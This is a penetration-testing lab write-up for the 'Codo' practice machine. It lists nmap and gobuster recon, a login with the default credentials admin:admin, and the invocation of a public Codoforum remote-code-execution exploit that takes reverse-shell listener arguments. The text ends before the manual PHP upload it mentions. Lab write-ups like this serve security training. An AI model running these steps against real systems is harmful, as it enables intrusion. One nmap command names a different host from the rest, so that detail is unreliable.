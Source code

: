 ```yaml
---
title: Codo
date: 2023-12-09
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon
![info-comm](./info-comm.png)
This machine has a Linux OS and is rated intermediate by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.183.23  codo
```
## Nmap
```
nmap -p- --open -sC -sV exfiltrated.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

The nmap scan discovered a web application
- Browse to `http://codo/` and we can see that the website is `Powered by Codoforum`

## Gobuster
```
gobuster dir -u codo/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt 
```
![gobuster](./gobuster.png)
The gobuster scan found an admin panel at `/admin/`
- The default credentials `admin:admin` can be used to log in

## Searchsploit
```
searchsploit codoforum
```
![searchsploit](./searchsploit.png)
Searchsploit returns a couple scripts, but the remote code execution python script looks the most interesting, download the script using:
```
searchsploit -m php/webapps/50978.py
```
- looking at this script shows the following URL location that allows for file upload
![urlUpload](./urlUpload.png)
- when going to the URL in the browser, we are indeed able to upload an image file

# Exploitation
Let's run the script found from searchsploit. The format for the flags are shown below.
```
python3 exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]
```
![firstrun](./firstrun.png)

Unfortunately, the script does not run correctly and fails in uploading the script. We can manually upload a PHP script as shown by the output.


